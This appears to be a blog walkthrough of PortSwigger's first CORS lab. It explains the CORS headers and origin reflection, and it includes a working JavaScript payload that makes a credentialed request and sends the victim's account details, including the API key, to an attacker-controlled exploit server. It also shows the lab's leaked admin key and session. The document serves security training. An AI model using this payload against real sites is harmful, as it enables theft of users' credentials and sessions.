





# Portswigger Web Security Academy | CORS Lab #1

Hi everyone! Today, we’ll be solving the first **CORS lab** from the PortSwigger Web Security Academy. Let’s get started!

### What’s CORS ?

CORS stands for Cross-Origin Resource Sharing. It determines whether JavaScript can access a resource _(by making an HTTP request or an API call, in simpler terms)_ from a different origin.

An origin is basically the combination of **protocol + domain + port**. When this pattern changes, the browser enforces CORS.

Here are the related CORS HTTP response headers:

1.  **Access-Control-Allow-Origin:** Tells the browser which origins can access this resource.
2.  **Access-Control-Allow-Methods:** Allowed HTTP methods.
3.  **Access-Control-Allow-Headers:** Headers the client can send in the request.
4.  **Access-Control-Allow-Credentials:** Allows cookies/auth headers if set to true.
5.  **Vary: Origin:** Ensures correct caching behavior per origin.

If the domain that tries to access the resource is listed in the value of the **Access-Control-Allow-Origin** header, then that origin has the right to access the resource.

If **Access-Control-Allow-Credentials** is true, cookies for the target domain are also sent, allowing authenticated requests. This is where CORS vulnerabilities become very impactful.

Let me show you it in an illustration so you can understand it better:



### Lab Description



I’ve logged in as the wiener user and captured the request for this API key. Here’s the request & response:



To check if this API call is really vulnerable to CORS attacks and trusts any origin, let’s add an **Origin** header with a custom value and see how the application behaves:



As you can see, the value `sometestorigin.com`appears inside the **Access-Control-Allow-Origin** response header. This means that origin has access to the resource. Also, since **Access-Control-Allow-Credentials** is set to true, cookies will be included as long as cookie attributes _(like SameSite, Path, Domain)_ don’t prevent it.

Alright, now let’s create the malicious payload, update our exploit server’s response, and serve the payload to the victim admin user. After that, we can extract the admin’s API key from the logs.

#### Exploitation

Here’s the payload that we’ll be be using:

```html
<html>
 <head>
  <script>
   const exploitServer = "https://exploit-<YOUR-EXPLOIT-SERVER-ID>.exploit-server.net/api-logs"
   const vulnerableEndpoint = "https://<YOUR-LAB-ID>.web-security-academy.net/accountDetails"

   function reqListener() {
    location = exploitServer + this.responseText;
   };

   const req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('GET', vulnerableEndpoint, true);
   req.withCredentials = true;
   req.send();
  </script>
 </head>
 <body>
  Something went wrong :)
 </body>
</html>
```

What this payload does:

1.  Makes a GET request to the vulnerable accountDetails API.
2.  Captures the response.
3.  Sends the response to the exploit server so we can extract it from the logs.
4.  After serving the payload to the victim user, we can extract the API key.

Let’s store and serve the payload to the victim user to extract the API key:



Here’s the decoded response:

```json
{
    "username": "administrator",
    "email": "",
    "apikey": "364pm5KegMUpW9nfNgcMOM9zaHhq3xjH",
    "sessions":
    [
        "f2aFt26euDIL1mxQ0qc0tNEjQv931cSd"
    ]
}
```

Thanks for reading, have a nice day!